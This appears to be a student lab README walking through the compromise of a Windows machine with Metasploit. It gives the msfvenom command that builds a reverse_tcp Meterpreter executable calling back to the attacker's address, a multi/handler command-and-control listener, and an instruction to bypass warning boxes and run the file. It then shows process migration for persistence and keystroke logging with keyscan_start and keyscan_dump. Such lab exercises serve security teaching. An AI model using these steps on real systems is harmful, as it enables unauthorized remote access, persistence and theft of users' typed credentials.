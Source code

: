 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/74550efa-b854-40d4-b2ea-efcca695c3a8)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/d7fa5d5a-2d2e-4353-91c0-a264ffd766d5)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/64f9ee47-fe20-476d-8b2f-cbecfb0d9b10)

Start apache server
sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/9de7872b-0606-4bc4-b61b-764fd8f69354)

Check the status of apache2

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/98a71193-fe0b-4b71-8135-5832349c2c8b)

## Invoke msfconsole:

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/c68b088d-f9ac-494e-89b3-7619dc9a0d1a)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5bd905e1-0784-45cd-85bd-5d4fd6c26187)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/38c8fc01-5d18-453e-bfa3-f891427a73ec)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7ba4fa62-e21e-4f75-a4fc-76f0c60f88bd)

Bypass any warning boxes, double-click the file, and allow it to run.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/ca529d8a-3722-4ec3-b0ba-f9e09b5d0aa4)

On kali give the command exploit

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/7cd5e8ca-50f0-4759-8f28-cc6ff0527039)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/5aa4b149-d48c-46c6-b76f-24de7f2a1987)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/8c13a53a-f912-46fd-8128-f5b7c33fcb09)

## Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2a10708c-b57d-4186-b5d9-11430a205c3e)
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/2bcd0bf4-82ea-4c20-ba04-90ba4eb23340)

keyscan_dump	Shows the keystrokes captured so far

## OUTPUT:
![image](https://github.com/AmirthaRoopaS/Compromising-windows-using-Metasploit/assets/143496311/404437cd-6710-4752-ac8e-6a859528baad)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
